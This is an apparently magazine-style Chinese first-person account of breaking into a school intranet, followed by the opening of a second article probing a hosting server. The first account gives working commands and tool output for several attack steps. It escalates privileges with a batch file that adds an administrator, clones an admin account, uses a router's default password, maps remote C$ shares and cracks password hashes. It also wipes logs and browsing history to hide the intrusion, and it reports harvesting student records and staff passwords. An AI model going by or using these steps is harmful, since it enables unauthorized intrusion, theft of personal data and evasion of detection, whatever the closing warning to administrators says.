

图 3



图 4

很成功地连接上去了，是一个远程办公系统（其实就是一个 ActiveX 版的远程终端服务系统）。我们刚才不是得到了个用户名吗？就用他登录，一切进展顺利，我们很成功看到“自己”的桌面（正确来说应该是对方机子这个用户的桌面）。首先试试我的权限有多大，不过结果让我很失望，USERS 组用户的权限十分小，该主机的 C、D、E 盘对 USER 组成员，全部采用禁止访问策略，不过这种程度的限制是阻止不了我们的，Win 2000 系统在本地状态下能够用来提升用户权限的漏洞十分多，在这里我利用了 smss.exe 中 DEBUG 子系统漏洞，它可以将任意用户提升为管理员。我在远程主机上运行 IE 浏览器，上网下载了 ERunAsX.exe 和 ERunAsX.dll 两个文件。为了一定的隐蔽性，我选择把它们存放在“我的文档”目录中。如果该主机不支持网络连接，我们也可以通过局域网的便利，先共享自己的一个目录，然后直接通过“网上邻居”拷贝那两个文件到这台机子上。

接着我利用记事本编写了一个 bat（批处理）文件，内容为：

```bat
net user torune 123 /add    # 添加一个名字叫 torune、密码为 123 的用户
net localgroup administrators torune /add    # 将 torune 用户添加到管理员组中去
```

（# 号后面为注释，包括 # 号及其后面的文字解释不在该 bat 文件以内）。将其保存为名叫 run.bat 的文件，并且将该文件存放到“我的文档”中。然后我进入 DOS 状态执行该程序，运行过程的指令为：

```bat
cd my documents    # 进入“我的文档”
ERunAsX run.bat    # 运行该程序
```

结果在预料之中，该程序成功地执行了我在 run.bat 中的指令，我现在已经成功地建立了一个名为 torune 的管理员。

成功执行程序后，我选择注销，退出这个账号，不过在注销前一定要记得清理遗留下来的痕迹。首先右键点击开始栏，清除该用户的文档菜单（也就是 Recent 目录里的文件）。接着进 IE 清除我刚才上网的记录，最后一定要选择注销，否则有可能导致 user 用户登录后察觉到，而且远程终端管理器中也会留下你的 IP 记录。至于“我的文档”里的那 3 个文件，由于这个用户的权限不足，暂时无法删除。

注销退出以后，我再次登录远程办公系统，这次使用的是我刚才建立的 torune 用户。一切顺利，成功登录到远程主机。

然而这样嚣张地添加用户的办法是不可取的，毕竟没有一个网管是绝对的白痴，因此我采用了克隆管理员账号的办法。关于它的介绍大家可以查阅一下 Adam 写过的文章，我在这里用的是小榕做的一个克隆管理员账号的程序。

在本机的 DOS 状态下运行该程序，其运行过程的指令和结果如下：

```text
C:\>ca \\10.35.2.50 torune 123 IUSR_FILESSERVER

torune
Clone Administrator, by netXeyes 2002/04/06
Written by netXeyes 2002, dansnow@21cn.com

Connect 10.35.2.50 ...OK
Get SID of IUSR_FILESSERVER ...OK
Preparing ...OK
Processing ...OK
Clean Up ...OK

C:\>
```

该程序成功地把 IUSR_FILESSERVER 用户克隆为远程主机的 Administrator。

大家也许觉得奇怪，为什么我的那个用户名是 IUSR_FILESSERVER，而不是 IUSR_TERMINALSERVER 呢？其实在这里，网管搞了个虚拟机，一个系统为 Windows 2000，另一个则是 Linux RedHat 系统。

现在要做的事，还是清理我遗留下来的痕迹。首先我还是选择注销这个 torune 用户，再次登录的时候，我选择的是 IUSR_FILESSERVER 用户。看来管理员账号克隆得很成功，我不但成功登录了远程主机，而且拥有了和 Administrator 一样的桌面和菜单（图 5）。


图 5

接着我继续清理工作。首先，进入“Documents and Settings”目录，找到 user 用户使用的本地目录，把我刚才使用的那 3 个文件删除，然后清空 Temp、Cookie 和 IE 缓存文件目录。接着使用 `net user torune /delete` 指令删除 torune 用户，并且再次进入“Documents and Settings”目录中删除 torune 用户的本地目录。

由于 torune 是个新建立的账号，Windows 2000 系统会在该账号登录后自动建立一个本地目录，用来存放该账号的桌面、菜单等文档。

控制了某台主机的最高权限后，也许很多人就会和我一样，翻翻看这台机子里有什么东西。正如我所预料，在这台机子的硬盘中存放了全校最重要的东西，例如全校学生的成绩档案、学生考勤记录等重要数据。这些数据的重要性不言而喻，如此重要的数据可以这么简单地被人发现，甚至窃取，这不免让我感到心寒（图 6）。



我继续在该主机的数据库中查找资料，其中的一个软件 FreeICQ 进入了我的视线，它是学校老师之间用来内部交流的软件，而该程序有一个辅助功能就是把数据库的用户数据导出去做备份。数十位老师的数据掌握在我的手中，当然其中也包括学校网络管理员的账号和密码（图 7）。



然而，不单是这些资料，我还在这台主机上找到了学校几十个路由的 IP 地址以及学校领导、各大办公室所使用的账号和密码，管理员居然直接以 TXT 文本格式保存在机子上，而且对那些重要数据不采取任何加密措施（图 8）。



不知道各位读者是否注意到图 8 中的“10.35.0.136 服务器室”？从文字上我们就可以知道，这个路由是全校网络数据传输的核心。

首先我要着手收集一下这个路由的资料。据 SSS 扫描得知该路由为 Cisco Catalyst 1900，一共开放了 2 个端口：23 和 80。我先 Telnet 上去看看。

```text
Catalyst 1900 Management Console
Copyright (c) Cisco Systems, Inc. 1993-1999
All rights reserved.
Standard Edition Software
Ethernet Address:      00-03-E3-0E-38-80

PCA Number:            73-3121-04
PCA Serial Number:     FAB0437C658
Model Number:          WS-C1924-A
System Serial Number:  FAB0438M370
Power Supply S/N:      PHI040301E6
PCB Serial Number:     FAB0437C658,73-3121-04

1 user(s) now active on Management Console.

Enter password:
```

此时系统提示要求我输入密码，首先我尝试着输入 123、321 等弱口令，然而结果是否定的，因此我不得不先暂时放弃从 Telnet 入侵的想法，将我的目标转移到 80 端口。系统继续提示要求我输入密码和用户名，这时候才想起来以前看过一篇关于 Cisco 的默认密码和用户名的文章，尝试着输入默认密码和用户名 Cisco 后，成功进入了在线路由管理系统（图 9）。

117609710-842925246-652003... 发生了怀疑，他的疑心也同时威胁到了我在远程主机上的权限问题。只要管理员当时重新安装系统，我的一切努力也就付之东流。

回头看看，我继续深入对内部网络的占领。这次的目标是那台名为 Filessserver 的服务器。首先是老习惯，Telnet 上去获得系统名称。返回的结果是 Red Hat Linux release 7.2 (Enigma) Kernel 2.4.7-10 on an i686 系统，并且要求我输入用户名和密码。我首先尝试的就是最早得到的那个弱口令用户名 ****，很顺利地登录了该主机。紧接着需要查看的就是该 Linux 系统是否安装了 gcc 编译功能。因为存在 gcc 编译这个功能也就意味着，我们成功进行本地溢出并且最终拿到 root 权限的机率为 80%。



也就花这短短的几十分钟中，我这位好奇的内部人员就已经完全掌握了这个内部网络的生杀大权。在这里值得一提的是一个关于克隆管理员账号的问题。大家请看图 10。



是否察觉到它安全栏里那个突然出现的 S-1-5-21-117609710-842925246-652003...？我觉得这个就是克隆管理员账号的一个漏洞（也许是我用小榕的那个 C.A.exe 才有的问题）。然而几天以后，当我再次使用在线办公系统登录远程服务器时，我在打开注册表的时候发现了网管曾经打开过 HKEY_USERS 底下的 S-1-5-21-117609710-842925246-652003... 这个键值，并且在它底下的子键值中查找一些东西。

至于我为什么知道他查看过注册表呢？我在前面提到过我和管理员拥有同样的桌面和开始菜单，因此我所拥有的历史记录也就是他的历史记录。他曾经开启过什么软件，除非他动手清理过，否则我可以知道他在本地操作过哪些程序，开启过哪些文件。

我们可以通过输入 gcc 指令来查看该主机是否存在 gcc 编译功能。例如：

```text
bash-2.05$
bash-2.05$ gcc
gcc: No input files
bash-2.05$
```

如果返回的结果是 `gcc: No input files`，那么就意味着该机子支持 gcc 编译功能。

我发现在 TerminalServer 中得到的那个 Administrator 的用户名和密码在这里也可以使用，而且是 root。此时我放弃了进一步取得更高权限的机会，上传了一个 wipe，清除完脚印之后，就悄悄地离开了这台机子。

成功地掌握了内部服务器的主动权后，我开始把注意力转向了 Web 服务器。如果能成功得到它的最高控制权，我就可以利用它作为跳板，由外向内进行入侵。一切进行得很顺利，使用完 `net use z: \\www.****.com.cn\C$ "password" /user:"user"` 指令，我成功地映射了该服务器的 C 盘。为了固定我在该服务器的权限，我决定启动 M$ 自带的 Telnet 服务，然后本地与远端的连接发生了错误。紧接着我采用了 Nmap for NT 对其进行了端口扫描，才知道该服务器的 23 端口已经被防火墙过滤了。存在防火墙也就意味着类似 WinShell、RemoteNC 这一类端口后门已经没有任何意义。我采取了暴力破解 SAM 的办法。在这里我使用的工具是 @Stake 公司开发的 LC4。在使用 LC4 破解 SAM 的时候，我发现了一个更为吃惊的事实，在破解出的账号中，居然有部分的管理员密码是 123……

（或者是 321）。

总结：作为读者的你，是否也有和我同样的感觉呢？这样一个大型网络的网管居然如此不重视安全问题，而他管理的内部网络又是如此之脆弱，可以说是毫无安全意识。这也难怪去年发生的中美黑客大战中，国内有大批数量的主机遭到了攻击，其中居然包括一些政府部门的服务器。我在这里想提醒各位网管：你不但要搞好 Web 服务器的安全问题，而且还要拿些精力来照顾内部网络，这样你才能避免类似这个校园网络的严重被人入侵问题。

一个没有保护好的内网，它的最终结局将是数据丢失、被窃，甚至内部网络崩溃，而这一切的发生只是个时间问题。

最后感谢爱之颠的大力帮助，如果大家有意与我讨论网络方面的技术问题，请与我联系，E-mail: torune@21cn.com。

### 一个虚拟网站的联网突破威胁防范

文／王亮

#### 一、事情的经过

一天我正在网上忙着找一些 CIW 安全培训教材，一个网友突然传给我一个网址 http://x.x.x.x.（被我马赛克了），告诉我他现在是该网站的网管，网站服务内容是为企业、个人提供收费型的虚拟空间服务，让我帮他检测网站的安全性（开始我想他本来就做过某黑客站点的站长，系统安全方面应该没什么大问题。）

我首先进行了一些扫描 Port 的活动。既然是朋友，又被授予合法检测权，就用不着使用 SYN 刺探方式，而且 SYN 准确性不太高。我运行了喜欢的扫描器 Superscan（经过我重新配置，加入不少重要的服务 Port），扫描结果如下（如图 1）：

共开了 10 个端口，重要的有 80、110、135、139、3389 等。可利用的服务并不算多。从扫描的 80 信息显示是 IIS5.0，还开了一个 Win2k 专有的远程桌面管理（Port:3389），再加上端口的开放情况，现在可以确定对方的系统一定是一台 Win2k + IIS5.0，这是我比较熟悉的系统之一。

由扫描结果看来他没有对端口进行过滤，这是一个入侵者喜欢的开端。先从最基本的开始，看看能不能顺利与服务器建立空连接：

```bash
E:\>net use \\211.154.129.167\ipc$ "" /user:
```



系统发生 53 错误。  
找不到网络路径。

看来空连接漏洞被补上了，利用空连接枚举账号清单并尝试破解的想法要落空了，早就知道没这么容易。

下面再进行 IIS5.0 的刺探，这个服务最复杂也最重要，所以 Winnt/2k 的黑客很多研究都是基于这个服务的。先试试有没有 idq 溢出漏洞，选了好几种 idq 溢出点都没成功，看来网管要么删了 idq 映射，要么给服务器打了 sp3 补丁。如果是打了 sp3 补丁，那么 IIS 就不会有什么漏洞了。另一个对 sp2 补丁可能有效的 asp 溢出也测试了，没有用。

如 printer 溢出就不用试了，因为那个溢出只应用到 sp1。

下面进行 IIS 扫描，我用的是 xfocus 安全小组开发的 x-scan1.3 扫描器。实践证明这个扫描器的漏洞资料库比较全面，它能扫出流光 4.7 扫不出的很多重要的 CGI 和 IIS 等漏洞（包括打上 sp2 补丁包并没进行严格配置的 Win2k）。我把 x-scan 对 Win2k 的扫描项都选上了，等了几分钟扫描完毕，生成检测报告。可是报告结果挺让我失望，没有一点问题。结合上面的扫描情况，我估计他很有可能给 IIS5.0 打上了 sp3 补丁。我不知道有什么漏洞可以突破打上最新补丁包的 IIS5.0，至少还没听说过打上 sp3 的 IIS5.0 还有什么致命的漏洞。现在的分析结果是 Win2k + IIS5.0 + sp3。

其他方面就不太可能有漏洞了，比如登录上 3389 服务，看看有没有什么非系统自带的输入法，因为有些类型的输入法还是有帮助文件和 URL 的，比如有个旧版本的紫光输入法。主页也没有什么漏洞。这时，我朋友看我没有办法检测出漏洞入侵，非常得意，为自己的安全配置感到很放心。当从他口中得知的确是打上了 Win2k 的最新补丁包 sp3，我也放弃了继续分析下去，认为不会有什么明显漏洞了，也没有其他可利用的服务。接着他给了我开一个虚拟网站的账号，免费提供给我一个 200Mb 的服务空间，并且告诉我这个空间可以支持 asp、php，并开放了所有权限给我（也就是说有脚本执行权）。哈哈，这回他得意忘形了吧，我照这个配置条件就可以拿到 admin 权限了。

我先用 ftp 命令登录进去，的确是 200Mb，完全免费，又开放所有脚本和权限。为了能更直观地表现过程，我下面全部使用 CuteFTP 图形界面软件操作，下面是我上传文件的情况（图 2）：

